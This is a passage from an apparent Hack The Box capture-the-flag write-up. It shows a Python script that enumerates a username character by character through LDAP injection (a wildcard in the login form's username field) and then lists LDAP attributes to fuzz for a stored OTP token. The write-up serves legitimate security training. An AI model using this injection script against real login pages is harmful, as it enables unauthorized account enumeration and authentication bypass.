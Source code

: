 letters = list(string.ascii_lowercase)
url = 'http://10.10.10.122/login.php'

def guess_next_char(current_guessed_string):
    for letter in letters:
        time.sleep(0.3)
        data = {
            "inputUsername": f"{current_guessed_string}{letter}%2a",
            "inputOTP": "1234",
        }
        response = requests.post(url, data=data)
        if "Cannot login" in response.text:
            return letter

    print("END")
    exit(1)

username = ""
while True:
    username += guess_next_char(username)
    print(username)
{{</code>}}

{{<figure src="/img/htb/ctf/ldapuser_guess.png" position=center caption="Script running">}}

The script returned the username `ldapuser`. We can confirm it by trying it on the login page:

{{<figure src="/img/htb/ctf/confirm_ldapuser.png" position=center caption="Confirmation">}}

Now that we have a valid username, we need to know the OTP. 

Referring to the comment we found earlier, the token is stored in one of the attribute. However we don't know which one that is. We can use the LDAP injection in order to fuzz for different attributes and see which one contains the token.

### Attribute enumeration
We can use [this LDAP attributes wordlist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP_attributes.txt) from PayloadsAllTheThings:

```text
c
cn
co
commonName
dc
facsimileTelephoneNumber
givenName
gn
homePhone
id
jpegPhoto
l
mail
mobile
name
o
objectClass
ou
owner
pager
password
sn
st
surname
uid
username
userPassword
```